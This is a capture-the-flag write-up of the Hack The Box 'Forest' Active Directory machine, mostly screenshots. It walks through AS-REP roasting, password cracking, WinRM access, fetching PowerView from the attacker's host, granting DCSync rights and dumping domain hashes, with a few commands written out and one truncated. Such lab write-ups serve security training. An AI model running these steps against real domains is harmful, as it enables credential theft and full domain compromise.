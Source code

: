 https://app.hackthebox.com/machines/Forest

Enumeration

Nmap

![image](https://user-images.githubusercontent.com/93418272/184115004-2a77a52a-c6e4-4261-9aca-d69b88cccfea.png)


A Domain Controller for the htb.local is found

SMB

![image](https://user-images.githubusercontent.com/93418272/184115042-cfd61216-893c-49da-8e69-a2b84661fd05.png)

![image](https://user-images.githubusercontent.com/93418272/184115057-03ec63f0-d199-4999-bf53-0d5805027dab.png)

RPC

![image](https://user-images.githubusercontent.com/93418272/184115088-2a545055-c8e1-4018-beee-f93e08a531e9.png)

Found a service account

![image](https://user-images.githubusercontent.com/93418272/184115119-e1b4a3b4-a3e9-41cb-8b40-9c774fdf2b69.png)


Let's do a test for discovering a user that does not require a pre-Authentication

Create a user list with the found users.

![image](https://user-images.githubusercontent.com/93418272/184115138-76955b52-f11e-4ddd-87cb-b7e854ac215d.png)


Start up kerbrute  

![image](https://user-images.githubusercontent.com/93418272/184115153-4a119bc2-c50a-464f-803f-363ffa5d0c8f.png)


The user accounts that are enabled with no pre-Authentication, it’s vulnerable to AS-REP Roasting attack.

Use the Impackt GetNPUsers.py from here.

Run the python script to dump out the hash.

./GetNPUsers.py htb.local/svc-alfresco -no-pass -dc-ip 10.10.10.161

![image](https://user-images.githubusercontent.com/93418272/184115194-71eab69b-cb24-475e-b070-d11b52e4558a.png)


Use John to crack the hash.

![image](https://user-images.githubusercontent.com/93418272/184115210-68334eb9-9d88-4f61-a59b-8e49aea17c8d.png)


Use evil-winrm to gain access.

![image](https://user-images.githubusercontent.com/93418272/184115228-4c587194-649b-45cf-b4de-245720a4f092.png)


First flag is found.

![image](https://user-images.githubusercontent.com/93418272/184115242-52defeb1-595d-4dd3-8458-a53d1c94e7a5.png)


Use the bloodhound python script to collect JSON data for the Bloodhound app

![image](https://user-images.githubusercontent.com/93418272/184115260-a8aa90e7-cf9f-4527-a739-b51f7f8a6b8f.png)


Load the data to Bloodhound and look at svs-alfresco data

The node belongs to the account operators group.

![image](https://user-images.githubusercontent.com/93418272/184115286-230b71e5-f656-4733-a6c2-48409cc4f877.png)


Account Operators group are allowed create and modify users and add them to non-protected groups.

Download the Powerspoilt dev module from github and start a python server to transfer the PowerView script to the windows box.

powershell Invoke-WebRequest -Uri http://10.10.14.23:80/PowerView.ps1 -OutFile PowerView.ps1

Input the following commands 

$pass = convertto-securestring 'password' -AsPlainText -Force

$cred = New-Object System.Management.Automation.PSCredential ('HTB\persecure', $pass)

Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity persecure -

![image](https://user-images.githubusercontent.com/93418272/184115318-31d633cb-167d-4f65-bd0b-7301e3f018fa.png)


Use secretsdump.py to get the hashes.

![image](https://user-images.githubusercontent.com/93418272/184115342-2efe198f-bbce-48bd-85f3-cff1ec616b4c.png)


Crack the hash with crackmapexec

![image](https://user-images.githubusercontent.com/93418272/184115427-b5d4e3e9-7266-4ec8-9048-603f85a592b2.png)


Use psexec.py to gain a shell.

![image](https://user-images.githubusercontent.com/93418272/184115394-685b97be-58d3-4e2f-8614-129c45b9e343.png)


Root flag is found.

![image](https://user-images.githubusercontent.com/93418272/184115486-25661ffc-825f-4a41-8f73-92ff9bb3024a.png)
